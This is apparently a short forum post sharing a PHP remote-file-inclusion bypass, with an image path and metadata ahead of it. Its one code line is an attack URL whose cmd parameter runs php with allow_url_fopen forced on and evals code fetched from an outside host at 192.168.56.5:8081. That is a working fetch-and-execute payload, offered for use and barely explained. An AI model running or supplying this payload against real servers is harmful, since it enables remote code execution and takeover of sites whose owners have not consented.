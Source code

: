 I saw this trick on a site that seems to bypass PHP settings to allow RFI.  I guess it's pointless if you already have LFI command execution, but here it is:

```bash
http://site.com/index.php?file.txt&cmd=php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.56.5:8081/JcuHF3brF1'));"
```

